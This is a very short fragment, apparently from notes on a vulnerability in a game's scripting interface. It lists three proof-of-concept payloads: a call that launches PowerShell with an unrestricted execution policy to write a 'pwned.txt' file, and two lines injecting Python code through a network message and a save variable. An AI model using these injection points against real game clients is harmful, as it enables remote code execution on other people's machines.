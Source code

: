 
- `Scrap.RunApp("C:/WINDOWS/System32/WindowsPowerShell/v1.0/powershell.EXE",'-NoProfile -ExecutionPolicy Unrestricted -Command "dir | out-file pwned.txt"')`
- `SNet.SendUsrString(<id>,"T<PythonCode>"`
- `Scrap.SetSaveVar("GameplayTime","<pythoncode>")`